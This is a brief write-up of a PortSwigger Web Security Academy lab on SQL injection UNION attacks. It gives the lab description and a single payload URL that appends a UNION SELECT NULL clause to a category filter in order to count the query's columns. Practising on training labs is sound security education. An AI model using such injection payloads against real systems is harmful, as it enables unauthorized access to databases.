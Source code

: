```yaml
---
title: 'Lab: SQL injection UNION attack, determining the number of columns returned by the query'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, determining the number of columns returned by the query
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. 
* Hint: To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.


#### Exp
Payload: `https://0ab2008b04e96b8f8057358e008d00d0.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--`
:::spoiler Success Screenshot
![](https://i.imgur.com/yZ3QPPF.png)
:::


## Reference